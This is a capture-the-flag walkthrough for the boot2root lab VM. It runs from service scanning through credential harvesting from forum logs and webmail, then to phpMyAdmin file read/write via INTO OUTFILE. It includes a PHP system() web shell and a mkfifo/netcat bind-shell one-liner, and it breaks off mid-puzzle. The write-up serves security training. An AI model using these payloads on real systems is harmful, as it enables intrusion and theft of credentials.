


# boot2root

This is a reverse-engineering and security challenge.
The objective is to gain privileged access to the system contained in an ISO disk image.

## Powering up

To boot up the vm, I use an utility script `vm.sh`:
```bash
./vm.sh up
```

To access the vm easily, I setup a DNS route with the name `boot2root.vm`:
```bash
sudo pdnsd-ctl add a "$(./vm.sh ip)" "boot2root.vm"
```

You could also edit the `/etc/hosts` file or use the vm's ip address directly.

I will use the local environment variable `TARGET` to reference the hostname.
```bash
TARGET=boot2root.vm
```

## Service discovery
```bash
pushd services
```
To discover the services that are exposed to the local network, we can use an nmap service identification scan:
```bash
nmap -sV "$TARGET" -oN map
```

The result will be saved in human-readable format into a file called `map`:
```
# Nmap 7.92 scan initiated Mon Jun 13 15:29:04 2022 as: nmap -sV -oN map 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00016s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 13 15:29:16 2022 -- 1 IP address (1 host up) scanned in 12.97 seconds
```

As we can see, there are `SSH`, `FTP`, `HTTP/S` and `IMAP` servers which we can try to access.

We do not have any credentials yet, so let's try to access the public web services.

### http
The `HTTP` server running on port `80` contains placeholder page:

---

<div id="wrapper">
    <h3>Hack me</h1>
    <h4>We're Coming Soon</h2>
    <p>We're wetting our shirts to launch the website.<br />
    In the mean time, you can connect with us trought</p>
    <p><a href="https://fr-fr.facebook.com/42Born2Code">Facebook</a> <a href="https://plus.google.com/+42Frborn2code">Google +</a> <a href="https://twitter.com/42born2code">Twitter</a></p>
</div>

---

### https
```bash
pushd https
```

On the `HTTPS` server running on port `443` we get a `404`:

---

<h3>Not Found</h1>
<p>The requested URL / was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at boot2root.vm Port 443</address>

---

Because there is no index, we can use a directory enumeration tool:
```bash
dirstalk scan --no-check-certificate --scan-depth 0 "https://$TARGET" --dictionary /usr/share/wordlists/dirb/small.txt > map

cat map
```
```
4 results found
/
├── cgi-bin
├── forum
├── phpmyadmin
└── webmail

https://boot2root.vm/cgi-bin/ [403] [GET]
https://boot2root.vm/forum [301] [GET]
https://boot2root.vm/phpmyadmin [301] [GET]
https://boot2root.vm/webmail [301] [GET]
```

Using a depth of zero will save us a lot of time, as we are trying to make a broad discovery.

The `webmail` and `phpmyadmin` are probably authenticated, so let's try to access the `forum` instead.

#### forum
```bash
pushd forum
```

The page is titled `HackMe` and there are several topics:

---
- Welcome to this new Forum ! - admin
- Probleme login ? - lmezard
- Gasolina - qudevide
    - Gasolina - zaz
- Les mouettes !
    - Les mouettes ! - thor
---

There is a list of the users:

---
| Username | Type  |  Email  |
|----------|-------|:-------:|
| admin    | Admin | &#9745; |
| lmezard  | User  | &#9744; |
| qudevide | User  | &#9744; |
| thor     | User  | &#9744; |
| wandre   | User  | &#9744; |
| zaz      | User  | &#9744; |
---

After quickly looking over each topic, one seems to be interesting:

---
<h3>Probleme login ?</h3>
<p class="author">by <strong>lmezard</strong>, Thursday, October 08, 2015, 00:10 <span class="ago">(2454 days ago)</span><br />
<span class="edited">edited by admin, Thursday, October 08, 2015, 00:17</span></p>

```
Oct  5 08:44:40 BornToSecHackMe sshd[7482]: input_userauth_request: invalid user test [preauth]
[...]
Oct  5 17:51:15 BornToSecHackMe sshd[1782]: pam_unix(sshd:session): session opened for user admin by (uid=0)
```
---

The user called `lmezard` posted the content of a log file divulging some user information.

Because the log is pretty verbose, I have decided to build a filter to identify each interaction.

There are five kinds of interactions in this log file:

- login
- logout
- success
- failure
- sudo

Using the `success` filter, we can find out which users had `SSH` access:
```bash
popd
pushd sshd

< log ./filter.sh success
```
```
success:    admin@62.210.32.157:61495
success:    admin@62.210.32.157:56050
success:    admin@62.210.32.157:60098
success:    admin@62.210.32.157:50755
success:    admin@62.210.32.157:54025
success:    admin@62.210.32.157:64745
success:    admin@62.210.32.157:54511
success:    admin@62.210.32.157:51320
success:    admin@62.210.32.157:56349
success:    admin@62.210.32.157:54915
success:    admin@62.210.32.157:60970
success:    admin@62.210.32.157:56754
```

Using the `sudo` filter, we can find out which users can gain privileges on the machine:

```bash
< log ./filter.sh sudo
```
```
sudo:       admin@pts/0 as root in /home/admin /bin/sh
sudo:       root@pts/0 as root in /home/admin /usr/sbin/service vsftpd restart
sudo:       root@pts/0 as root in /home/admin /usr/sbin/service vsftpd restart
sudo:       admin@pts/0 as root in /home /bin/sh
sudo:       admin@pts/0 as root in /home/admin /bin/sh
sudo:       admin@pts/0 as root in /home/admin /bin/sh
```

Using the `failure` filter, we can find out which users attempted to connect:

```bash
< log ./filter.sh failure
```
```
failure:    test@161.202.39.38:53781
failure:    user@161.202.39.38:54109
failure:    admin@161.202.39.38:54501
failure:    PlcmSpIp@161.202.39.38:54827
failure:    pi@161.202.39.38:56275
failure:    test@161.202.39.38:56630
failure:    admin@161.202.39.38:57011
failure:    nvdb@161.202.39.38:57329
failure:    !q\]Ej?*5K5cy*AJ@161.202.39.38:57764
failure:    admin@104.245.98.119:22717
failure:    guest@104.245.98.119:24338
failure:    ubnt@104.245.98.119:24710
failure:    support@104.245.98.119:25965
failure:    test@104.245.98.119:27190
failure:    user@104.245.98.119:27769
failure:    admin@104.245.98.119:28290
failure:    PlcmSpIp@104.245.98.119:29308
failure:    ftpuser@104.245.98.119:30401
failure:    pi@104.245.98.119:30558
failure:    test@104.245.98.119:31167
failure:    admin@104.245.98.119:32271
failure:    naos@104.245.98.119:32805
failure:    adm@104.245.98.119:33503
failure:    admin@46.159.82.56:38179
```

One of the usernames seems pretty uncommon: `!q\]Ej?*5K5cy*AJ`.
Let's try to find its context:

```bash
< log ./filter.sh | grep '5K5cy' --context=3
```
```
failure:    test@161.202.39.38:56630
failure:    admin@161.202.39.38:57011
failure:    nvdb@161.202.39.38:57329
failure:    !q\]Ej?*5K5cy*AJ@161.202.39.38:57764
login:      lmezard@(uid=1040)
logout:     lmezard
logout:     root
```

Immediately after the failed authentication, the user `lmezard` logged in successfully.

Maybe he mistakenly put his password in the username prompt.

Let's try to connect using `SSH` with these credentials:
```bash
ssh lmezard@boot2root.vm
```
```
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
lmezard@boot2root.vm's password: 
Permission denied, please try again.
```

The permission is denied, which may be the reason why he created this topic.

The `forum` has a login button. Let's try the credentials there.

The login is successfull and we can now post topics as the user `lmezard`.
We can also access his private profile area, where we can find his email address: `laurie@borntosec.net`.

The directory enumeration found a directory called `webmail`.
Let's try to access it using this email address.

```bash
popd
```

#### webmail
The mail application is called `SquirrelMail`.

The login is successfull and leads us to an inbox containing some mail:
- DB Access - qudevide@mail.borntosec.net
- Very interesting !!!! - qudevide@mail.borntosec.net

The mail titled `DB Access` seems very interesting, as it seems to contain root access to some databases.

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

The enumeration also found a directory called `phpmyadmin`, which may enable us to interact with SQL databases.

#### phpmyadmin
```bash
pushd phpmyadmin
```

Using the newly found credentials, we can view the forum's database, and execute `SQL` queries. We have access to all tables, because we're authenticated as the mysql `root` user.

---
MySQL

- Server: Localhost via UNIX socket
- Server version: 5.5.44-0ubuntu0.12.04.1
- Protocol version: 10
- User: root@localhost
- MySQL charset: UTF-8 Unicode (utf8)
---


There are several ways to exploit our new privileges. We can:
- Dump databases
- Edit database entries
- Read local files
- Write local files

As usual, I've created some scripts to ease interactions.
Using the query script, we can easily interact with the database.

For example, we can get a file's content using the following statement:
```sql
LOAD DATA INFILE '$FILE_PATH' INTO TABLE `$TABLE_NAME`;
```

Another functionality that we can exploit, is the ability to write local files.
Using the following statement, we can write files in any writable directory, as long as the file does not already exist:
```sql
SELECT '$CONTENT' INTO OUTFILE '$FILE_PATH';
```

If we find a writable directory inside of the web server's root directory, we can write a php file and execute arbitrary code by accessing it using an `HTTP` request.

Let's try to find out where the web root is located. An interesting file of known location is the linux user configuration file: `/etc/passwd`.
```bash
./download.sh $(tr '/' ' ' < root.mysql.credentials) "/etc/passwd"

cat files/etc/passwd | sort --numeric-sort --field-separator=: --key=3
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false

ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash

nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
```
The third field corresponds to the user's `id`.
It looks like ids for system users begin at `0` (root) and ids for regular users begin at `1000` (ft_root).

We can see that the following users have a regular account:
- ft_root
- lmezard
- laurie@borntosec.net
- laurie
- thor
- zaz

The system user's include the `mail`, `www-data` and `ftp` users.
We may be able to determine the location of each applications base directory, by looking at their corresponding `passwd` entry's `home` field.

| User     | Home     |
|----------|----------|
| mail     | /var/mail|
| www-data | /var/www |
| ftp      | /srv/ftp |

Let's try to write to the `www-data` user's home directory.
```bash
echo test > test.txt

./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/test.txt
```
```
"#1 - Can't create/write to file '/var/www/test.txt' (Errcode: 13)"
```

It looks like the `mysql` user does not have write permissions on the `/var/www` directory.

We can try to search for the web applications inside of the `/var/www` directory using the `SQL` server's read functionality.

The `LOAD DATA INFILE` statement is powerful, but it cannot list files.
To do this, I created a fuzzing tool that can be used like the directory enumeration tool that we previously used on the web server.
```bash
#!/usr/bin/env bash

DATA=fuzz
PREFIX="${3:-/var/www/}"

while read -r line
do
	echo "SELECT '$DATA' INTO OUTFILE '$PREFIX$line'"
done | ./query.sh "$1" "$2" | grep -v 'Errcode: 13'
```

The tool attempts to store data into files, by concatenating the web root with filenames read from standard input.

We can input a list of subdirectories we expect, according to the urls of the web applications:
```bash
./fuzzfile.sh $(tr '/' ' ' < root.mysql.credentials) << EOF
cgi-bin
forum
phpmyadmin
webmail
EOF
```
```
"#1086 - File '/var/www/forum' already exists"
```

It looks like we found the `forum`'s subdirectory.
Let's try to write a file inside of it:
```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/forum/test.txt
```
```
"#1 - Can't create/write to file '/var/www/forum/test.txt' (Errcode: 13)"
```

We still lack the write permission.

Because we know that the `forum` is powered by the `My Little Forum` CMS, we can get a copy of the sources to get further information on the application's directory structure.

```bash
pushd /tmp

curl -L -O 'https://github.com/ilosuna/mylittleforum/archive/refs/tags/20220529.1.tar.gz' | tar xz

pushd mylittleforum-20220529.1

ls -l

cat README.md

popd

popd
```
```
drwxr-xr-x  2 clemax clemax    60 May 29 21:00 backup
-rw-r--r--  1 clemax clemax 43559 May 29 21:00 CHANGELOG
drwxr-xr-x  2 clemax clemax   160 May 29 21:00 config
drwxr-xr-x  5 clemax clemax   100 May 29 21:00 images
drwxr-xr-x  2 clemax clemax   520 May 29 21:00 includes
-rw-r--r--  1 clemax clemax  9097 May 29 21:00 index.php
drwxr-xr-x  2 clemax clemax    80 May 29 21:00 install
drwxr-xr-x  2 clemax clemax   120 May 29 21:00 js
drwxr-xr-x  2 clemax clemax   320 May 29 21:00 lang
-rw-r--r--  1 clemax clemax 33093 May 29 21:00 LICENSE
drwxr-xr-x 10 clemax clemax   200 May 29 21:00 modules
-rw-r--r--  1 clemax clemax  1366 May 29 21:00 README.md
drwxr-xr-x  2 clemax clemax    60 May 29 21:00 templates_c
drwxr-xr-x  3 clemax clemax    60 May 29 21:00 themes
drwxr-xr-x  2 clemax clemax    80 May 29 21:00 update
```

---
my little forum
===============

<a href="https://mylittleforum.net/">my little forum</a> is a simple PHP and MySQL based internet forum that displays the messages in classical threaded view (tree structure). It is Open Source licensed under the GNU General Public License. The main claim of this web forum is simplicity. Furthermore it should be easy to install and run on a standard server configuration with PHP and MySQL.

* <a href="https://github.com/ilosuna/mylittleforum/wiki">More about my little forum</a>
* [Demo and project discussion forum](https://mylittleforum.net/forum/)

System requirements
-------------------

* Webserver with PHP >= 7.3 and MySQL >= 5.5.3

Installation
------------

1. Unzip the script package.
2. Upload the complete folder "forum" to your server.
3. Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.
4. Run the installation script by accessing yourdomain.tld/forum/install/ in your web browser and follow the instructions.
5. Remove the directory "install" from your installation of My Little Forum.
6. Change the write permissions for config/db_settings.php to (CHMOD 440), what prevents reading the files content for unauthorised users
---

According to the directory structure, we may be able to write to the templates_c subdirectory, as it may have the world writable attribute `xx7`:

```
3. Depending on your server configuration the write permissions of the subdirectory templates_c (CHMOD 770, 775 or 777) and the file config/db_settings.php (CHMOD 666) might need to be changed in order that they are writable by the script.
```
Let's try to write to it:
```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) test.txt /var/www/forum/templates_c/test.txt
```
```
"Your SQL query has been executed successfully ( Query took 0.0002 sec )"
```

Success! Now let's ensure we can access the file using the `HTTP` protocol:
```bash
curl --insecure "https://boot2root.vm/forum/templates_c/test.txt"
```
```
test
```

Excellent, now let's try to upload a php shell, so that we can execute arbitrary commands.

My php shell takes a `GET` query argument and executes it using the php `system` function:
```php
<?php

$cmd = $_GET["cmd"];

system($cmd);

?>
```

```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) shell.php /var/www/forum/templates_c/shell.php
```
```
"Your SQL query has been executed successfully ( Query took 0.0002 sec )"
```

Nice, now we should be able to execute shell commands:
```bash
curl --insecure 'https://boot2root.vm/forum/templates_c/shell.php?cmd=ls'
```
```
11c603a9070a9e1cbb42569c40699569e0a53f12.file.admin.inc.tpl.php
2bd398249eb3f005dbae14690a7dd67b920a4385.file.login.inc.tpl.php
40bf370f621e4a21516f806a52da816d70d613db.file.user.inc.tpl.php
427dca884025438fd528481570ed37a00b14939c.file.ajax_preview.tpl.php
560a32decccbae1a5f4aeb1b9de5bef4b3f2a9e5.file.posting.inc.tpl.php
5cfe6060cd61c240ab9571e3dbb89827c6893eea.file.main.tpl.php
749c74399509c1017fd789614be8fc686bbfc981.file.user_edit.inc.tpl.php
8e2360743d8fd2dec4d073e8a0541dbe322a9482.english.lang.config.php
ad5c544b74f3fd21e6cf286e36ee1b2d24a746b9.file.user_profile.inc.tpl.php
b2b306105b3842dc920a1d11c8bb367b28290c2a.file.subnavigation_1.inc.tpl.php
d0af1f95d9c68edf1f8805f6009e021a113a569a.file.entry.inc.tpl.php
e9c93976b632dda2b9bf7d2a686f72654e73a241.file.user_edit_email.inc.tpl.php
f13dc3b8bcb4f22c2bd24171219c43f5555f95c0.file.index.inc.tpl.php
f75851d3a324a67471c104f30409f32a790c330e.file.subnavigation_2.inc.tpl.php
shell.php
test.txt
```

If netcat is installed, we can spawn a nicer interactive shell listener:
```bash
curl --insecure 'https://boot2root.vm/forum/templates_c/shell.php?cmd=which%20nc'
```
```
/bin/nc
```

I used a circular fifo to redirect the client input into the shell's input, like this:
```
FIFO="/tmp/f"
SHELL="bash"
NC="nc"
PORT=5555

rm -f '$FIFO'; mkfifo '$FIFO'; cat '$FIFO' | '$SHELL' -i 2>&1 | '$NC' -l '$PORT' 2>&1 > '$FIFO'
```

I created a script that executes this command using the php shell, and connect's to the vm, spawning a python pty that enables us to run interactive commands.
```bash
./shell.sh $(tr '/' ' ' < root.mysql.credentials)
```
```
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```

Now that we can execute arbitrary commands, we can inspect the filesystem more easily.

To find potentially interesting files, I used the find command with the user option:
```bash
find / -user www-data -not \( -path '/proc/*' -o -path '/dev/*' -o -path '/rofs/*' -o -path '/var/www/*' \) 2>/dev/null
```
```
/home
/home/LOOKATME
/home/LOOKATME/password
/run/lock/apache2
/tmp/f
/var/cache/apache2
/var/cache/apache2/mod_disk_cache
/var/lib/phpmyadmin/tmp
```

We own a file called `password` in the `/home/LOOKATME` directory.
```bash
cat /home/LOOKATME/password
```
```
lmezard:G!@M6f4Eatau{sF"
```

The password seems different from the previous credentials.
Let's try to switch user using this password:
```bash
su lmezard
Password: G!@M6f4Eatau{sF"
```
```
lmezard@BornToSecHackMe:/var/www/forum/templates_c$
```

Nice, so now we're logged in as the user `lmezard`.
Let's take a look at his home directory:
```bash
cd
ls -l
```
```
total 791
-rwxr-x--- 1 lmezard lmezard 808960 Oct  8  2015 fun
-rwxr-x--- 1 lmezard lmezard     96 Oct 15  2015 README
```

```bash
cat README
```
```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

## Challenges

### fun
```bash
popd; popd
pushd users; pushd lmezard/fun
```

```bash
file fun
```
```
fun: POSIX tar archive (GNU)
```

Let's try to download this file to our machine for further analysis.
I'll use the `netcat` utility to create a `TCP` listener.
```bash
nc -l 5556 < fun
```

Now we can connect and retrieve the file using:
```bash
nc --recv-only boot2root.vm 5556 > fun.tar
```

Let's look at the archive's contents:
```
tar xf fun.tar
```

The archive contains a directory named `ft_fun`.
```
file ft_fun/*
```
```
ft_fun/00M73.pcap: ASCII text
...
ft_fun/YDMXW.pcap: ASCII text
ft_fun/YJR5Z.pcap: C source, ASCII text
ft_fun/YL7B7.pcap: ASCII text
...
ft_fun/ZQTK1.pcap: ASCII text
```

There are 751 files containing ASCII text, with one file being identified as C source.

```bash
wc -l ft_fun/*
```
```
    2 00M73.pcap
    ...
    2 BI0RD.pcap
 1266 BJPCP.pcap
    2 BN32A.pcap
    ...
    2 ZQTK1.pcap
 2764 total
```

Each file is contains two lines, bessides `BJPCP.pcap` which contains a lot more.

Let's look at this big file's contents:
```c
}void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme9() {
	return 'n';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme10() {
	return 'a';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme11() {
	return 'g';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
char getme12()
{
	return 'e';
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}*/
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
/*
void useless() {
	printf("Hahahaha Got you!!!\n");
}
...
void useless() {
	printf("Hahahaha Got you!!!\n");
}
*/
//file750
```

This looks like some c code, but it looks like a part of the file is missing.

Between the useless noise, there is a function that prints `MY PASSWORD IS: `, followed by characters returned from different functions, ranging from `getme1` to `getme12`.

The password is followed by an instruction that tells us to hash the password before using it.

At the bottom of the file, there is a line containing a line comment stating `file750`.

Let's look at some other files:
```bash
cat 00M73.pcap
```
```
void useless() {

//file12
```

```bash
cat 01IXJ.pcap
```
```
}void useless() {

//file265
```

The contents seem similar to the c code, and the last line always contains an identifier.

Let's try to concatenate all the files and filter out the noise:

```bash
cat * | sed -e '/void useless()/d' -e '/Hahaha/d' -e '/^$/d'
```
```
//file302/*
//file431char getme4() {
//file373char getme7() {
//file736char getme1() {
//file668char getme5() {
//file601/*
//file108}*/
//file349}
//file483   return 'a';
//file722char getme6() {
//file697   return 'I';
//file138char getme3() {
} */
char getme8() {
    return 'w';
}
/*
}*/
char getme9() {
    return 'n';
}
/*
}*/
char getme10() {
    return 'a';
}
/*
}*/
char getme11() {
    return 'g';
}
/*
}*/
char getme12()
{
    return 'e';
}
/*
}*/
int main() {
    printf("M");
    printf("Y");
    printf(" ");
    printf("P");
    printf("A");
    printf("S");
    printf("S");
    printf("W");
    printf("O");
    printf("R");
    printf("D");
    printf(" ");
    printf("I");
    printf("S");
    printf(":");
    printf(" ");
    printf("%c",getme1());
    printf("%c",getme2());
    printf("%c",getme3());
    printf("%c",getme4());
    printf("%c",getme5());
    printf("%c",getme6());
    printf("%c",getme7());
    printf("%c",getme8());
    printf("%c",getme9());
    printf("%c",getme10());
    printf("%c",getme11());
    printf("%c",getme12());
    printf("\n");
    printf("Now SHA-256 it and submit");
}
/*
}
*/
//file15}
//file432} */
//file688}
//file161   return 'e';
//file540}
//file632char getme2() {
//file314}
//file252   return 't';
//file102}*/
//file703}
//file128/*
//file497/*
//file141/*
//file239}*/
//file271
//file163   return 'p';
//file640   return 'r';
//file254}
//file445}
//file157/*
//file256}
//file479}
//file427}*/
//file281/*
//file596*/
//file503#include <stdio.h>
//file3 return 'h';
//file687
```

All files seem to be parts of the c program, but they are not named according to their order.

Knowing that their is a total of 750 files, and that the identifier of the long file is file750, we can deduce that the identifier corresponds to the order of each part.

We can sort the files according to this identifier and concatenate them, to get the code in the right order.

I wrote a script to filter out the noise, sort the files and concatenate them.
```bash
./filter.sh
```
```c
#include <stdio.h>
}
char getme1() {
    return 'I';
}
/*
}
}*/
char getme2() {
    return 'h';
}

/*
}
*/
char getme3() {
    return 'e';
}
/*
}*/
char getme4() {
    return 'a';
}
/*
} */
char getme5() {
    return 'r';
}
/*
}*/
char getme6() {
    return 't';
}
/*
}*/
char getme7() {
    return 'p';
}
/*
} */
char getme8() {
    return 'w';
}
/*
}*/
char getme9() {
    return 'n';
}
/*
}*/
char getme10() {
    return 'a';
}
/*
}*/
char getme11() {
    return 'g';
}
/*
}*/
char getme12()
{
    return 'e';
}
/*
}*/
int main() {
    printf("M");
    printf("Y");
    printf(" ");
    printf("P");
    printf("A");
    printf("S");
    printf("S");
    printf("W");
    printf("O");
    printf("R");
    printf("D");
    printf(" ");
    printf("I");
    printf("S");
    printf(":");
    printf(" ");
    printf("%c",getme1());
